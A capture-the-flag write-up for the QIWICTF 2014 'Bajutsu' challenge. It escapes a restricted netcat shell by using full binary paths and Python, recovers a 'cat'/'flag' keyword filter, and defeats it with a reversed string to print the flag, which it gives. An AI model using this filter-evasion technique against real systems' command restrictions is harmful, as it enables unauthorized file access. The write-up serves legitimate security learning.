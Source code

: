 ```yaml
---
title: "QIWICTF 2014 - Bajutsu (Pwn100)"
tags:
  - qiwictf2014
  - writeup
  - pwn
---
```


*cat flag on port 2222 at qiwictf2014.ru*

```shell
$ nc qiwictf2014.ru 2222
echo "Hello"
Hello
ls
cat flag
$
```

Now if we try to connect, it seems like we got a shell. However, the shell is
extremely restricted. It seems we can only use echo.<!--more-->

However, it is possible that the PATH variable just isn't set for us to access
bins that way. Let's try full paths:

```shell
$ nc qiwictf2014.ru 2222
/bin/ls
bajutsu
flag
$
```

Works. Now we can use the full power of /bin/ and /usr/bin. Let's try the
obvious thing:

```shell
$ nc qiwictf2014.ru 2222
/bin/cat flag
$
```

Nope. Probably filtering of some kind. Let's check if the command's even
available:

```shell
$ nc qiwictf2014.ru 2222
/bin/cat --help
$
```

Nope. Python might be available though, then we're totally set to pwn.

```shell
$ nc qiwictf2014.ru 2222
/usr/bin/python -c 'print "Test"'
Test
$
```

Great it is available. Let's try the obvious thing:

```shell
$ nc qiwictf2014.ru 2222
/usr/bin/python -c 'print file("flag").read()'
$
```

Nothing. Probably the filtering. I guessed that it was probably restricting the
word 'flag' but let's confirm that. We can dump the binary using:

```shell
$ nc qiwictf2014.ru 2222
/usr/bin/python -c 'print file("bajutsu").read()'
$
```

Doing some reversing, we find that the following configuration is passed to a
tcp wrapper thing:

```shell
"accept tcp {\naddress 0.0.0.0\nport 2222\n} wrap console {\ncmd \"/bin/bash\"\n}filters {\nto-service-filter {\naction \"cut\"\nregex {\"cat\"\n\"flag\"\n}}}"
```

Cool we were right, the words 'flag' and 'cat' are filtered. So all we need to
do now is just fudge the word 'flag':

```shell
$ nc qiwictf2014.ru 2222
/usr/bin/python -c 'print file("galf"[::-1]).read()'
ZN2014_226BDE035EAA91DDBCEB7883199E30AA


$
```

And we have our flag. Thanks MSLC for the great challenge.

Flag: **ZN2014\_226BDE035EAA91DDBCEB7883199E30AA**
